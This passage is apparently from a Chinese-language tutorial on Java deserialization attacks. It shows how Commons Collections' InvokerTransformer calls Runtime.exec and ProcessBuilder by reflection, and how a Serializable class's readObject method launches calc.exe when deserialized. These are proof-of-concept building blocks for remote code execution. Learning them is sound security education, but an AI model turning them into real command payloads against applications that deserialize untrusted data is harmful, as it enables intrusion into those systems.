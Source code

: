 在这个函数中，调用了java反射机制，下面写一个正常的例子测试一下:  

	InvokerTransformer invokerTransformer = new InvokerTransformer("append", new Class[]{String.class}, new Object[]{new String("sb")});
	Object result = invokerTransformer.transform(new StringBuffer("who am i")) ;
	System.out.printf(result.toString());
	
有些朋友会想，那么我该如何去执行命令呢？java常见执行命令的方式有两个，分别是 new processBuilder(cmd).start()和Runtime.getRuntime().exec(cmd)。我们可以构造如下代码:
运行下面这段代码可以弹出计算器，mac下

	String[] cmds = new String[]{"open", "/Applications/Calculator.app/"};
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	invokerTransformer1.transform(Runtime.getRuntime());
	
win下
	
	String[] cmds = new String[]{"calc.exe"};
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	invokerTransformer1.transform(Runtime.getRuntime());
	
当然这样也可以
	
	ProcessBuilder processBuilder = new ProcessBuilder("open", "/Applications/Calculator.app/");
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("start", new Class[]{}, new Object[]{});
	invokerTransformer1.transform(processBuilder);
	
###  案例  
  java有一个特征，不管经过几层封装，封装成什么类型，最终在readObject的时候，都会按照被封装的倒序去执行readObject。(ps:这是一段极其抽象的话，为了解释这段抽象的话，我画了一个看起来很抽象的画，在下师从抽象派大师梵高)
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/73877567.jpg)
  即使最后是读者们执行readObject，最后也会一层一层到上帝来执行readObject，具体例子如下:
	
	public static class A implements Serializable {
	private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
	try {
	System.out.printf("whoami");
	new ProcessBuilder("calc.exe").start();
	} catch (IOException e) {
	e.printStackTrace();
	}
	}
	}

	package test;
	
	import java.io.*;
	
	/**
	* Created by xmm on 2017/12/26.
	*/
	public class Main {
	public static class A implements Serializable {
	private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
	try {
	System.out.printf("whoami");
	//Runtime.getRuntime().exec(new String[]{"calc.exe"});
	new ProcessBuilder("calc.exe").start();
	} catch (IOException e) {
	e.printStackTrace();
	}
	}
	}
	
